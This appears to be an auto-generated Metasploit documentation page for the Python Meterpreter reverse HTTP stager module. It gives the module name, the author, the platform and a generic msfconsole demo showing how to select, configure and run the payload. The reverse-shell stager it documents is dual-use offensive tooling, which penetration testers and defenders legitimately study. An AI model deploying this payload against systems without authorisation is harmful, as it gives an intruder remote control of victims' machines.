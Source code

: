 ## Python Meterpreter, Python Reverse HTTP Stager

Run a meterpreter server in Python (2.5-2.7 & 3.1-3.5). 
Tunnel communication over HTTP


## Module Name
payload/python/meterpreter/reverse_http

## Authors
* Spencer McIntyre





## Platforms
* python

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/python/meterpreter/reverse_http
msf payload(reverse_http) > show targets
   ... a list of targets ...
msf payload(reverse_http) > set TARGET <target-id>
msf payload(reverse_http) > show options
   ... show and set options ...
msf payload(reverse_http) > run
```
    
    